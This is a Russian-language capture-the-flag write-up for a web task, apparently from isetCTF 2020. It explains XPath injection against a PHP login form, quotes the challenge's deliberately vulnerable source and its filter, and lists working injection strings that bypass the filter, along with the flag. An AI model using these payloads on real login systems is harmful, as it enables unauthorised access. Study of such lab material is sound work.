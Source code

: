 ## SteamCTF

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| final_isetCTF 2020 | SteamCTF | Web | ........ |

### Описание
> Автор: [ @dikidikiday ]
>
> **Записки охранника Игоря:** *день первый*
> 
> Во всей моей профессиональной практике я не находил более ответственного, ленивого,но прилежного сисадмина, чем этот новичок. Он мне сразу не понравился. Ну даже мне понятно, что от рута в консоли не надо работать!! Я вот сижу под своим **Игорь** и всем доволен! Вообще в нашем банке есть особенная система, специально, чтобы не вести таблицу доходов/расходов, но попробуй объясни это новичку...
> В этой системе обращение к элементам **документа**, имеющего древовидную структуру, напоминает взаимодействие с файловой системой **(/)**.
> Всем удобно, никто не жалуется.
> Эту [систему](http://ваш_сайт:1001) создал старый сисадмин Павлик, но его выгнали, из-за этого он ушёл и даже не сказал пароль!!!
> Знаю только, что он фанат Warface. Ээх..поиграть бы..
> Но для начала надо найти пароль, вдруг он его куда-нибудь записал...

### Решение 

Самое сложное и важное -- прочитать условие.
Понимаем, что повествование переключилось, теперь идет не от лица горе-сисадмина, а от лица охранника Игоря. Выделено имя -- на заметку, скорее всего надо будет ломать именно его.
Система, похожая чем-то на БД из прошлых соревнований первого дня.
Документ,имеющий древовидную структуру намекает на **XML документ**.
Гуглим.
**XML (eXtensible Markup Language)** – это всем известный язык разметки, с помощью которого создаются XML документы, имеющие древовидную структуру. 

Пример простейшего XML документа:

```
<?xml version="1.0" encoding="UTF-8"?>
<foo>
<bar param="value"/>
</foo>
```

Гуглим еще.
**XPath (XML Path Language)** – это язык, который предназначен для произвольного обращения к частям XML документа.
О! То, что надо!

По аналогии с первым вебом на прошлых соревнованиях можно предположить, что тут тоже инъекция, тем более такая есть, а автор намекает на это.

Гуглим [туц](https://raz0r.name/articles/vvedenie-v-xpath-inekcii/) и [туц](https://xakep.ru/2008/06/24/44160/)

Представим что у нас есть XML база и аутентификация, основанная на ней:

```
<?xml version='1.0' encoding='ISO-8859-1'?> <users>
    <user>
        <id> 1 </id>
        <username> admin </username>
        <password> xp8th! </password>
    </user>

    <user>
        <id> 2 </id>
        <username> test </username>
        <password> test987 </password>
    </user>

    <user>
        <id> 3 </id>
        <username> bigolnerd </username>
        <password> nerdsneedlovetoo
</password>
</user>
</users>
```

Можно сразу было попробовать вставить кавычку и понять, что это была xpath inj:
```
Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/html/index.php on line 561

Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/html/index.php on line 561
```

`'1'='1` и аналогичные кавычки не работают, также блочатся `or` и цифры.

Зайдя в исходный код страницы, находим [ссылку](/index.php/src/) 
`<!-- <a href="/index.php/src/">Исходный код</a> -->` на исходный код.

Видим, что пользовательский ввод через поля **login** и **password** фильтруется:

```php
$blacklist = Array('or','0', '1', '2', '3', '4', '5', '6', '7', '8', '9');
``` 

Также, наюблюдаем очень странную проверку верности введённых пользователем данных:

```
        if ($_SERVER['REQUEST_METHOD'] === 'POST'){
          $login = $_POST['login'];
          $pass = $_POST['pass'];
          if(contains($pass, $blacklist) or contains($login, $blacklist)){
              die("Простите, тут запрещено хекать!!");
          }
          else{
            $xml = simplexml_load_file('/users.xml');

            $query = "//users/user[login/text()='$login' and password/text()='$pass']";

            $result = $xml->xpath($query);
            if(!$result){
                echo "Попробуй еще раз! Я верю в тебя!";
            }
            else{
                $user_data = $xml->xpath("//users/user[login/text()='$login']")[0];
                $flag = $user_data->flag;
                echo "Ваш флаг STEAMCTF: ".$flag;
            }
          }
        }
```

Видим, что нам нужно провести инъекцию в поле **password** так, чтобы запрос был верным и выдал хотя бы один результат, а в поле **login** ввести необходимого нам пользователя (из описания задания можно понять, что нам необходим **Игорь**).

Учитывая фильтры, простейшие инъекции:
```
'] | //* | /foo[bar='
'] | /* | /foo[bar='
'] | /users/user | /foo[bar='
```

При этом последний вариант можно вставить только в логин.


**Флаг:**

> flag{xp4tH_I5_jU5T_4_w4rM_uP}
